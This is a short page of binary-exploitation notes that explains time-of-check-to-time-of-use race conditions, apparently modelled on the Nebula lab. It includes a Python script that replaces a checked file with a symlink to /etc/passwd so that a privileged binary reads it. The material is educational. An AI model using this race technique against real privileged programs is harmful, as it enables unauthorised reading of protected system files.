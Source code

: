 # Binary Exploitation

## Bug Classes

### Time of check to time of use

Time of check to time of use \(TOCTOU\) bugs are classes of bugs in which access or permissions to a resource are verified independently of their actual use.  In cases like this it requires something that the user can modify independently of the process.  

A classic example is that of the access to fopen call in C.  Take the following example of a binary which checks we can access a file, say `/home/ubuntu/testfile` and then after a certain amount of time opens it and displays the results:

```python
import os
import subprocess
import time
import sys

os.system('touch /home/ubuntu/testfile')
proc = subprocess.Popen(['/usr/bin/opentestfile', '/home/ubuntu/testfile'], stdout=subprocess.PIPE)
time.sleep(.5) #Do this to ensure the access check runs
os.system('rm /home/ubuntu/testfile')
os.system('ln -s /etc/passwd /home/ubuntu/testfile')
proc.wait()
print proc.communicate()
os.system('rm /home/ubuntu/testfile')
```

This form of race-condition can take many forms from socket communications to file access.

#### References

[Nebula 10 - Exploit Exercises](http://blog.kernelsecurity.es/2013/06/06/nebula-level10-exploiting-access-syscall-toctou-race-condition/)  
[Wikipedia](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use)  
[OWASP - Time of check to time of use](https://www.owasp.org/index.php/Time_of_check,_time_of_use_race_condition)



